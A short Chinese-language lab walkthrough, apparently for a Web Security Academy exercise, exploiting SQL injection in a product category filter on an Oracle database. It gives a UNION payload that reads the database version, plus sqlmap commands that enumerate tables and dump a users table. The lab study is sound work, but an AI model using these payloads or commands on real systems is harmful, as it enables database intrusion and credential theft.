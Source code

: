 产品类别处存在sql注入

并且已经知道数据库为oracle,并且可以使用union 联合注入



1. 确定数据库版本：

paylaod:

```javascript
/filter?category=Accessories'union+select+banner,'abc'+from+v$version--+
```



![](images/9429C63F178244F2AA55385F3DF0437Cclipboard.png)



2. 确定当前数据库

```javascript
 sqlmap  -u"https://acfa1ff31e4b331c8035914d002a000a.web-security-academy.net/filter?category=Accessories" 
 --current-db --technique U --dbms oracle
 
 --technique U 指定为union注入
 --dbms oracle 指定为oracle数据库
```



3. 爆表

```javascript
sqlmap  -u"https://acfa1ff31e4b331c8035914d002a000a.web-security-academy.net/filter?category=Accessories" 
--tables -D"SYSTEM" --technique U --dbms oracle
```



4. 爆数据

```javascript
sqlmap  -u"https://acfa1ff31e4b331c8035914d002a000a.web-security-academy.net/filter?category=Accessories" 
--dump -T"USERS_MZURNA" -D"SYSTEM" --technique U --dbms oracle
```

